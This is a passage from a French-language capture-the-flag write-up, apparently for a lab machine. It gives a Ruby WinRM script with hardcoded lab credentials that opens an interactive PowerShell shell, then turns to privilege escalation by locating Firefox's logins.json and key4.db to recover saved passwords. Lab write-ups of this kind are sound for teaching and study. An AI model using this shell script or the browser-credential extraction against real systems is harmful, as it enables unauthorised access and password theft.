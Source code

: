 On se connecte :

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.149:5985/wsman',
  user: 'Chase',
  password: 'Q4)sJu\Y8qz*A3?d',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
``` 

`ruby winrm-shell.rb`
```
PS > whoami
supportdesk\chase
```

# Elevation de priviléges

`PS > type Desktop\todo.txt`
```
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.
Done:
1. Restricted access for guest user.
```

- On comprends que la liste des issues est vérifiée à travers un navigateur
- On vois que FFX est installé sur la box
    - L'utilisateur `chase` possède un profile dans FFX

`*Evil-WinRM* PS C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles>`
    
- Sur les versions récentes de FFX le manager de MDP stock les identifiants chiffrés dans `logins.json` et la clé de chiffrement dans `key4.db`
- Les deux fichiers sont stockés dans `C:\Users\<USER>\AppData\Roaming\Mozilla\Firefox\Profiles `
- Quand aucun mot de passe master n'est définis les MDP peuvent être retrouvés

